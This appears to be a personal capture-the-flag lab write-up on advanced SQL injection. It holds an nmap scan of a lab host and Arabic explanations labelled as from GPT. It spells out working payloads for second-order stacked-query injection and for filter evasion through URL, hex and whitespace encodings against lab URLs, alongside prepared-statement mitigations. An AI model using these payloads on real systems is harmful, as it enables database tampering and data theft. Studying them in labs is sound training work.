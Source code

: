 # Advanced SQL Injection

<details>
  <summary>Introduction</summary>

  > ﻿Throughout this room, you will gain a comprehensive understanding of the following key concepts:
- >> Second-order SQL injection 
- >> Filter evasion
- >> Out-of-band SQL Injection
- >> Automation techniques
- >> Mitigation measures

- > **``First``** scan
  >
  > ```
  > nmap -A -T4 -p 3306,3389,445,139,135 10.10.108.30
  > ```
  >

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 14:35 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 20.00% done; ETC: 14:36 (0:00:24 remaining)
Nmap scan report for 10.10.108.30
Host is up (0.11s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.23 or earlier (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-05-01T18:36:10+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SQLi
| Not valid before: 2025-04-30T18:34:14
|_Not valid after:  2025-10-30T18:34:14
| rdp-ntlm-info: 
|   Target_Name: SQLI
|   NetBIOS_Domain_Name: SQLI
|   NetBIOS_Computer_Name: SQLI
|   DNS_Domain_Name: SQLi
|   DNS_Computer_Name: SQLi
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-01T18:36:00+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2019 (96%), Microsoft Windows 10 (93%), Microsoft Windows 10 1709 - 21H2 (93%), Microsoft Windows 10 21H1 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows 10 1903 (92%), Windows Server 2019 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Vista SP1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-01T18:36:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   140.13 ms 10.8.0.1
2   127.52 ms 10.10.108.30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds

```

- > mysql run on **``3306``**


</details>










--------------------------------------------------------------------------------------------------------------------------------------------------










<details>
  <summary>Recap</summary>

![image](https://github.com/user-attachments/assets/c6ced0d7-d8d3-4b5e-8aea-d80d42831e45)

  
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>Second-Order SQL Injection</summary>

<details>
  <summary>GPT--explain</summary>
  
# Second-Order SQL Injection

Second-Order SQL Injection (SQLi) هو نوع من أنواع هجمات SQL التي لا يتم تنفيذها في لحظة إدخال البيانات كما هو الحال مع SQLi التقليدي. بدلاً من ذلك، يتم إدخال كود خبيث يُخزن بشكل طبيعي في قاعدة البيانات، ثم يُنفذ لاحقًا عند استخدام هذه البيانات في استعلام SQL جديد بدون حماية كافية.

---

## 🧠 مثال توضيحي

### 💾 1. صفحة `add.php` (إدخال البيانات)

المهاجم يدخل البيانات التالية:

- `SSN`: `12345'; UPDATE books SET book_name = 'Hacked'; --`
- `book_name`: `Normal Book`
- `author`: `John Doe`

الكود يُخزن كما هو داخل قاعدة البيانات دون تنفيذ أي أوامر SQL، لأنه لا يُستخدم في استعلام أثناء الإدخال.

---

### 🔁 2. صفحة `update.php` (استخدام البيانات لاحقًا)

الكود التالي يستخدم البيانات المخزنة:

```php
$update_sql = "UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '$ssn'; INSERT INTO logs (page) VALUES ('update.php');";
```

إذا كانت قيمة `$ssn` هي القيمة التي أدخلها المهاجم سابقًا، فإن هذا الاستعلام يصبح استعلامًا مركبًا يؤدي إلى تنفيذ الكود الخبيث.

### 💣 النتيجة

- يتم تنفيذ الأمر الثاني داخل الاستعلام: `UPDATE books SET book_name = 'Hacked';`
- أسماء كل الكتب في الجدول قد تتغير إلى "Hacked".

---

## ⚠️ لماذا هذا النوع خطير؟

- يمر من عمليات الفلترة التقليدية مثل `real_escape_string()`.
- لا يسبب مشاكل ظاهرة وقت الإدخال، مما يجعله صعب الاكتشاف.
- يتم تنفيذه في وقت لاحق في مكان مختلف في الكود.

---

## 🔐 كيف نحمي التطبيق؟

### ✅ استخدام Prepared Statements (الاستعلامات المجهزة)

```php
$stmt = $conn->prepare("UPDATE books SET book_name = ?, author = ? WHERE ssn = ?");
$stmt->bind_param("sss", $book_name, $author, $ssn);
$stmt->execute();
```

### ✅ فلترة البيانات عند الإدخال **وعند الاستخدام**

- لا تكتفِ بالتحقق عند الإدخال فقط.
- تحقق من صحة وسلامة البيانات قبل استخدامها في أي استعلام.

### ❌ تجنب استخدام `multi_query()` إن أمكن

- لأنه يسمح بتنفيذ أكثر من أمر SQL في استعلام واحد، مما يسهل تنفيذ الأكواد الخبيثة.

---

## 📊 تسلسل الهجوم (وصف توضيحي)

```
[User Input] --> (add.php) --> [Stored in DB] --> (update.php uses it unsafely) --> [SQL Injection Triggered]
```

---

Second-Order SQLi مثال قوي على أن الأمان لا يجب أن يعتمد فقط على الإدخال النظيف، بل أيضًا على كيفية استخدام البيانات لاحقًا.


</details>


- > first we will add new book on this ``http://10.10.84.232/second/add.php`` like this:
  > 
  > ![image](https://github.com/user-attachments/assets/4088c1e0-64fc-4dca-b5cf-cddffd17176c)
  > 
  > we make book ``SSN`` content ``12345'; UPDATE books SET book_name = 'Hacked'; --``
  > 
  > it will not excuted now
  >
  > now we open **``http://10.10.84.232/second/update.php``** and update content of this book
  >
  > ![image](https://github.com/user-attachments/assets/b03e0b64-42f6-405d-812d-5fb3be5888cf)
  >
  > if we go back to ``add.php`` will found all books name became **``hacked``**
  >
  > ![image](https://github.com/user-attachments/assets/6594fef7-009d-4cee-a91f-b68c82ce188b)
  >
  > we can also drop tables or any other sql queryies 




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Filter Evasion Techniques</summary>

<details>
  <summary>GPT--explain</summary>

# SQL Injection: Bypassing Weak Filters

## 🎯 الفكرة الأساسية
بعض المطورين يحاولون منع هجمات SQL Injection عن طريق فلترة كلمات خطيرة مثل `OR`, `AND`, `UNION`, `SELECT` من مدخلات المستخدم. لكن هذه الطريقة غير كافية ويمكن تجاوزها باستخدام تقنيات ترميز مختلفة.

---

## 🧱 مثال على كود ضعيف للحماية:

```php
$special_chars = array("OR", "or", "AND", "and" , "UNION", "SELECT");
$book_name = str_replace($special_chars, '', $book_name);
```

الكود يقوم بإزالة الكلمات المحظورة من المدخلات. فإذا أدخل المستخدم:
```
admin' OR 1=1
```
فإنها تتحول إلى:
```
admin' 1=1
```
وبالتالي قد يفشل الهجوم. لكن... 👇

---

## 💥 كيف يتجاوز الهاكر الفلترة؟

### ✅ 1. URL Encoding (ترميز الروابط)

الهجوم:
```
admin' OR 1=1 --
```
يُكتب كالتالي:
```
admin%27%20OR%201%3D1%20--+
```
الفلتر لا يتعرف على `%27` كعلامة اقتباس `'`، لكنها تُفك عند التنفيذ.

---

### ✅ 2. استخدام `||` بدل `OR`

في MySQL:
```sql
1' || 1=1 --+
```
`||` تعمل كبديل لـ `OR`. الفلتر لا يراها خطيرة لكنها تؤدي نفس الغرض.

---

### ✅ 3. Hex Encoding (الترميز بالـ Hex)

كلمة `admin` يمكن كتابتها كالتالي:
```sql
0x61646d696e
```
إذا حاول الفلتر منع كلمة "admin"، هذا الترميز سيتجاوز الحظر.

---

### ✅ 4. Unicode Encoding (الترميز الموحد)

مثال:
```
\u0061\u0064\u006d\u0069\u006e  →  admin
```
بعض البيئات تقوم بتفسير الترميز وتحويله للنص الأصلي تلقائيًا.

---

## 👨‍💻 تطبيقات واقعية معرضة للخطر

- مواقع البحث في الكتب أو المنتجات.
- صفحات تسجيل الدخول واسترجاع كلمات المرور.
- أي نموذج إدخال يعتمد على كلمات يتم فلترتها سطحيًا.

---

## 🛡️ كيف تحمي تطبيقك كمطور؟

- ✅ **استخدم Prepared Statements (استعلامات مجهزة مسبقًا):**
  - تمنع تنفيذ الكود الخبيث مهما كانت طريقة ترميزه.

- ❌ **لا تعتمد على `str_replace` أو Regex فقط:**
  - الترميز قد يخدع هذه الطرق بسهولة.

- 🧠 **افهم أن الترميز لا يغير نية المدخلات:**
  - قاعدة البيانات ستفك الترميز وتنفذ الأوامر.

---

الحماية الحقيقية تأتي من تصميم استعلاماتك بشكل آمن، وليس من مجرد إزالة كلمات معينة من إدخال المستخدم.


  
</details>


- > firts open ``http://10.10.84.232/encoding/``
  >
  > try to use for exmaple ``' or 1=1; --`` this will appear
  >
  > ![image](https://github.com/user-attachments/assets/891418fc-62fd-415a-b15a-bdb20dc11faf)
  >
  > so now will go to burpsuit and send request to ``repeater``
  >
  > and select the input and do url encode to it by click ``ctrl`` **+** ``U``
  >
  > ![image](https://github.com/user-attachments/assets/181147f7-3764-438a-9c65-9fab015278a7)
  >
  > ```
  > http://10.10.84.232/encoding/search_books.php?book_name=intro+to+php%27+||+1%3d1+--+
  > ```




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Filter Evasion Techniques (continued)</summary>

<details>
   <summary>GPT--EXPLAN</summary>

# 💣 No-Quote & No-Space SQL Injection

## 🔍 أولًا: يعني إيه No-Quote SQL Injection؟

دي تقنية بنستخدمها لما السيرفر يمنع علامات الاقتباس `'` أو `"`. يعني أي حاجة فيها `' OR '1'='1` مش هتشتغل، لأن السيرفر بيعمل escape لها أو بيحذفها.

---

## ✅ إزاي نعدي الفلتر ده؟

### 1. استخدام الأرقام بدل النصوص:
```sql
... WHERE id = 1 OR 1=1 --
```
✅ الأرقام لا تحتاج علامات اقتباس، فتعدي بسهولة.

### 2. استخدام التعليقات لتعطيل باقي الاستعلام:
```sql
admin--
```
✅ أي شيء بعد `--` لا يُنفذ.

### 3. بناء كلمات باستخدام دوال SQL:
```sql
CONCAT(0x61, 0x64, 0x6D, 0x69, 0x6E) = "admin"
```
✅ تجاوز لكلمة "admin" بدون كتابتها مباشرة.

---

## 🚫 No-Space SQL Injection (المسافات ممنوعة)

بعض الفلاتر تمنع المسافات كإجراء أمني إضافي.

### ✅ كيف نتجاوز منع المسافات؟

#### 1. استخدام تعليقات مكان المسافات:
```sql
SELECT/**/username/**/FROM/**/users/**/WHERE/**/1=1
```
✅ `/**/` تُعامل كمسافة من قِبل المحرك SQL.

#### 2. استخدام ترميزات للمسافات:

| Character | Meaning               |
|-----------|------------------------|
| `%09`     | Tab                   |
| `%0A`     | Line Feed (New Line) |
| `%0D`     | Carriage Return      |
| `%0C`     | Form Feed            |
| `%A0`     | Non-breaking Space   |

### 💡 مثال عملي:

رابط:
```arduino
http://10.10.84.232/space/search_users.php?username=?
```

الكود في الخلفية:
```php
$special_chars = array(" ", "AND", "and", "or", "OR" , "UNION", "SELECT");
$username = str_replace($special_chars, '', $username);
```

#### ❌ Payload فاشل:
```vbnet
1' OR 1=1 --
```

#### ✅ Payload ناجح:
```matlab
1'%0A||%0A1=1%0A--%27+
```

> `%0A` = سطر جديد، `||` = بديل `OR`، `%27` = `'`, `--` = تعليق

---

## 🧠 الخلاصة: (تلخيص تقنيات التجاوز)

| السيناريو                     | الحل                                                   |
|------------------------------|--------------------------------------------------------|
| كلمات محجوبة (SELECT...)     | `SElEcT`, `SE/**/LECT`, استخدام `CHAR()` أو `CONCAT()` |
| المسافات ممنوعة             | استخدم `%09`, `%0A`, `/**/`, `+`, `\t`, `\n`           |
| Quotes ممنوعة               | استخدم أرقام، دوال نصوص، أو بدون Quotes               |
| `AND` / `OR` ممنوعة         | استخدم `&&`, `` ` ``, أو `||`                          |
| ترميز UTF أو Hex            | `CHAR(0x41)`, `CONCAT(0x61,0x64,0x6D)`                  |

---

## 🧪 نصيحة ميدانية:

- ✅ لازم تجرب، تفشل، وتحاول تاني.
- ✅ مفيش فلتر أو WAF بيقدر يمنع كل الطرق.
- ✅ كل بيئة ليها سلوك مختلف، لازم تفكر زي مخترق ذكي.

> الحماية الذكية = استعلامات مجهزة مسبقًا + فهم عميق للثغرات.


  
</details>


- > **``10.10.84.232/space/search_users.php?username=attacker``**



</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------





